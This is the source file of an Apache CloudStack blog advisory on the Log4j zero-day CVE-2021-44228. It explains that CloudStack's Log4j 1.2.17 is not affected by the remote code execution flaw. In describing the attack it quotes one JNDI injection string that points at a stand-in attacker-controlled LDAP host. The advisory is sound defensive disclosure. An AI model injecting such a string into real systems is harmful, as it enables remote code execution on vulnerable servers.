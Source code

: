 ```yaml
---
layout: post
title: CloudStack Advisory on Apache Log4j Zero Day (CVE-2021-44228)
date: '2021-12-13T00:00:00+00:00'
categories: cloudstack
---
```

On 9th December 2021, a new zero-day vulnerability for Apache Log4j was reported. It is by now tracked under CVE-2021-44228:
<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228">https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228</a>.

CVE-2021-44228 vulnerability is classified under the highest severity mark and allows an attacker to execute arbitrary code by injecting a sub-string in the form "${jndi:ldap://some.attacker-controlled.site/}" into a logged message. Apache Log4j 2.x is reported to be affected as it performs a lookup (string substitution) using the JNDI protocol, whenever the "${jndi:...}" string is found within a message parameter.

The Apache <a href="https://github.com/apache/logging-log4j2/pull/608#issuecomment-990494126">Log4j developers</a> and the <a href="http://slf4j.org/log4shell.html">SLF4J project advisory</a> confirm that Apache Log4j 1.x does not offer a look-up mechanism and does not suffer remote code execution (RCE) vulnerability from CVE-2021-44228.

All Apache CloudStack releases since v4.6 use Apache Log4j version 1.2.17 and therefore are not affected by this RCE vulnerability. Most users who haven't changed the default log4j xml config don't need to do anything, advanced users can check and fix their log4j xml configuration if they're using any custom JMS appenders.

The Apache CloudStack project will consider migrating to a different version of Apache Log4j in future releases.
